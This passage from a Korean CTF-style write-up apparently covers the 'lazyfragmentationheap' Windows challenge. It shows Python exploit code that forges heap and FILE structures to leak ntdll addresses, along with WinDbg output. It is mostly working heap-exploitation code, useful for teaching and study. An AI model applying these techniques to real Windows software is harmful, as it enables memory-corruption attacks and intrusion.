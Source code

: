 ```python

log.info("&_HEAP = 0x%016x" % heap_base)

# make LFH to allocate new Userblock in chunk 4
for _ in range(0x14):
	open_file()

pause()

'''
0:001> dqs beefdad0000+(0x28*3) l5
00000bee`fdad0078  0000ddaa`beef1acd
00000bee`fdad0080  00000000`00001a60 <------------|
00000bee`fdad0088  00000000`00000004              |
00000bee`fdad0090  0000ddaa`beef1acd              |
00000bee`fdad0098  00000128`446003c0              |---- profit!
0:001> dqs lazyfragmentationheap+5628 l1          |
00007ff7`6f405628  00000128`44600950              |
0:001> ? 00000128`44600950-00000128`446003c0      |
Evaluate expression: 1424 = 00000000`00000590 <---|
'''
```

FILE 구조체를 이용한 공격기법은 Angelboy가 작성한 [Play with FILE Structure - Yet Another Binary Exploit Technique](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)에 잘 정리되어 있지만 Linux를 기준으로 설명하고 있어 Windows의 FILE 구조체와는 약간 다른데 이 부분은 디버거로 보면 바로 보이기 때문에 FILE 구조체가 어떤 구조를 가지고 있는지 분석하는 건 그닥 어렵지 않습니다. 

**_HEAP** 구조체의 주소를 알고 있으니 해당 구조체 근처에서 구할 수 있는 **ntdll.dll**의 주소부터 leak해보겠습니다.

```python
# skip for brevity...

# make LFH to allocate new Userblock in chunk 4
for _ in range(0x14):
	open_file()

fake_HEAP_USERDATA_HEADER = ""
fake_HEAP_USERDATA_HEADER += p64(heap_base + 0xbcd0)   # +0x000 SubSegment
fake_HEAP_USERDATA_HEADER += p64(heap_base + 0x12e40)  # +0x008 Reserved
fake_HEAP_USERDATA_HEADER += p32(0xc)                  # +0x010 SizeIndexAndPadding
fake_HEAP_USERDATA_HEADER += p32(0xf0e0d0c0)           # +0x014 Signature
fake_HEAP_USERDATA_HEADER += p64(0) * 5                # I couldn't leak other values

fake_FILE = ""
fake_FILE += p64(0) * 2              # _HEAP_ENTRY
fake_FILE += p64(heap_base + 0x2C0)  # cursor of SEEK_CUR, _HEAP->LockVariable->Lock
fake_FILE += p64(heap_base)          # base address, &_HEAP
fake_FILE += p32(0x800)              # remaining file size
fake_FILE += p32(0x2041)             # I dunno what they are
fake_FILE += p64(0x17)				
fake_FILE += p64(0x1000)
fake_FILE += p64(0)
fake_FILE += p64(0xffffffffffffffff)
fake_FILE += p64(0xffffffff)
fake_FILE += p64(0)
fake_FILE += p64(0)

for_leak = ""
for_leak += fake_HEAP_USERDATA_HEADER
for_leak += fake_FILE * (0x1000 / len(fake_FILE))

edit(4, for_leak)
alloc(5, SIZE)
```